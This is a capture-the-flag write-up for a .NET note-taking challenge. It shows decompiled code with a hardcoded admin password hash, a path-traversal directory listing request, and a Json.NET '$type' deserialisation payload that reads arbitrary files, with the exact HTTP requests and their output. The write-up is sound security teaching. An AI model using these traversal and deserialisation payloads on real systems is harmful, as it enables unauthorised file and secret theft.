


Welcome to NoteSafe, the ultra-secure note-taking app that protected by "Bitcoin-style encryption"™. Store your deepest thoughts and sensitive files behind a digital vault crafted by developers who read just enough of the Bitcoin whitepaper to feel dangerous.

But how safe is NoteSafe, really?

Can you bypass the crypto-hype, dig through the interface, and uncover what they've desperately tried to hide? A flag waits for the one who can see through the buzzwords and break the illusion of security.

## Writeup

1. There are many dotnet DLL files. We can use JetBrain's dotPeek to disassemble them.
2. There is an interesting code in `NoteSafe.Services.DatabaseService`

```cs
  private async Task SeedDatabaseAsync()
  {
    try
    {
      if (!await this.CheckTableExistsAsync("Users"))
        LoggerExtensions.LogWarning((ILogger) this._logger, "Users table does not exist, cannot seed database.", Array.Empty<object>());
      else if (await this._context.Users.CountAsync<User>() > 0)
      {
        LoggerExtensions.LogInformation((ILogger) this._logger, "Database already has users, skipping seed.", Array.Empty<object>());
      }
      else
      {
        User adminUser = new User()
        {
          Username = "admin",
          PasswordHash = "240be518fabd2724ddb6f04eeb1da5967448d7e831c08c8fa822809f74c720a9",
          CreatedAt = DateTime.UtcNow
        };
        this._context.Users.Add(adminUser);
        int num1 = await this._context.SaveChangesAsync();
        LoggerExtensions.LogInformation((ILogger) this._logger, "Added admin user to database.", Array.Empty<object>());
        this._context.Notes.Add(new Note()
        {
          Title = "Secret Flag",
          Content = "FLAG{this_flag_is_not_the_flag}",
          CreatedAt = DateTime.UtcNow,
          UpdatedAt = DateTime.UtcNow,
          UserId = adminUser.Id
        });
        int num2 = await this._context.SaveChangesAsync();
        LoggerExtensions.LogInformation((ILogger) this._logger, "Added flag note to database.", Array.Empty<object>());
        adminUser = (User) null;
      }
    }
    catch (Exception ex)
    {
      LoggerExtensions.LogError((ILogger) this._logger, ex, "Error seeding database.", Array.Empty<object>());
      throw;
    }
  }
```
- The password is `admin123`
2. Let's log in as admin:admin123 
	- Alright we are in
3.  The flag does not work 
4. We can get directory listing like this:
```http
GET /api/Files/list?folder=../../ HTTP/1.1
```
5. Note: It is most probably an insecure deserialisation problem
```cs
  public async Task<Note> CreateNoteAsync(string jsonPayload, int userId)
  {
    Note noteAsync;
    try
    {
      try
      {
        Note note = JsonConvert.DeserializeObject<Note>(jsonPayload);
        if (note != null)
        {
          note.UserId = userId;
          note.CreatedAt = DateTime.UtcNow;
          note.UpdatedAt = DateTime.UtcNow;
          this._context.Notes.Add(note);
          int num = await this._context.SaveChangesAsync();
          noteAsync = note;
          goto label_15;
        }
        note = (Note) null;
      }
      catch
      {
      }
      object obj1 = JsonHelper.DeserializeObject<object>(jsonPayload);
      PropertyInfo[] properties = obj1.GetType().GetProperties();
      Dictionary<string, object> dictionary = new Dictionary<string, object>();
      foreach (PropertyInfo propertyInfo in properties)
      {
        try
        {
          object obj2 = propertyInfo.GetValue(obj1); // creating the object
          dictionary[((MemberInfo) propertyInfo).Name] = obj2;
        }
        catch
        {
          dictionary[((MemberInfo) propertyInfo).Name] = (object) "[Error reading property]";
        }
      }
      throw new InvalidOperationException("Invalid object type. Debug info: " + JsonConvert.SerializeObject((object) dictionary)); // we want to trigger this
    }
    catch (Exception ex)
    {
      throw;
    }
label_15:
    return noteAsync; // we dont want this
  }
```
Reason for the vulnerability: `JsonHelper.DeserializeObject<object>`
```cs
public static T DeserializeObject<T>(string json)
  {
    try
    {
      JsonSerializerSettings settings = new JsonSerializerSettings()
      {
        TypeNameHandling = TypeNameHandling.All,
        SerializationBinder = (ISerializationBinder) null,
        TypeNameAssemblyFormatHandling = TypeNameAssemblyFormatHandling.Full,
        ConstructorHandling = ConstructorHandling.AllowNonPublicDefaultConstructor,
        PreserveReferencesHandling = PreserveReferencesHandling.Objects,
        MetadataPropertyHandling = MetadataPropertyHandling.ReadAhead
      };
      return JsonConvert.DeserializeObject<T>(json, settings);
    }
    catch
    {
      throw;
    }
  }
```
- `T` can be only object, so we can deserialize any object we want.
6. Our JSON payload:
First, We identify our gadget: In this case, our gadget is  FileSystemService object as it will read file and store it as an instance variable
```cs
public class FileSystemService
{
  public string FilePath { get; set; } // we can set FilePath

  public FileSystemService()
  {
  }

  public FileSystemService(string filePath) => this.FilePath = filePath;

  public string ReadFileAsString(string path = null)
  {
    string str = path ?? this.FilePath;
    if (string.IsNullOrEmpty(str))
      return (string) null;
    try
    {
      return File.Exists(str) ? File.ReadAllText(str) : (string) null;
    }
    catch (Exception ex)
    {
      return (string) null;
    }
  }

  public string FileContents // file contents is leaked here
  {
    get => this.ReadFileAsString();
    set
    {
    }
  }
	<snip>
}

```
We need to get information about the assembly and type from dotPeek
```
// Decompiled with JetBrains decompiler
// Type: NoteSafe.Services.FileSystemService
// Assembly: NoteSafe, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
// MVID: 50FA2D5F-03F2-4E88-B45C-760E5B77FEB8
// Assembly location: C:\Users\Khiew\Downloads\NoteSafe\NoteSafe\FOR_PLAYER\NoteSafe\NoteSafe\NoteSafe.dll
```
To build our payload,
```json
{"$type": "NoteSafe.Services.FileSystemService, NoteSafe, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null","FilePath": "../../../flag.txt"}
```
Output:
```http
HTTP/1.1 400 Bad Request

Content-Type: text/plain; charset=utf-8

Date: Fri, 27 Jun 2025 23:43:28 GMT

Server: Kestrel

Content-Length: 127


Invalid object type. Debug info: {"FilePath":"../../flag-hLS1iTUpUV.txt","FileContents":"flag{fake_flag}"}
```
7. However, this will not work in remote. This is because the organizer changed the name of the flag file. To find the new name, list the directory with the endpoint previously
```http
GET /api/Files/list?folder=../../ HTTP/1.1
```
Output:
```json
{"currentPath":"/app/../../","files":[{"name":"flag-hLS1iTUpUV.txt","path":"/app/../../flag-hLS1iTUpUV.txt","size":36,"lastModified":"2025-06-19T20:56:28.7842621+00:00"},{"name":".dockerenv","path":"/app/../../.dockerenv","size":0,"lastModified":"2025-06-27T23:38:41.8432009+00:00"}], <snip>}
```
- The path is `/app/../../flag-hLS1iTUpUV.txt`
8. To get the flag,
```http
POST /api/Notes HTTP/1.1
{"$type": "NoteSafe.Services.FileSystemService, NoteSafe, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null","FilePath": "../../flag-hLS1iTUpUV.txt"}
```
Output:
```
Invalid object type. Debug info: {"FilePath":"../../flag-hLS1iTUpUV.txt","FileContents":"prelim{buzzw0rd5_4r3_n0t_3ncrypt10n}"}
```
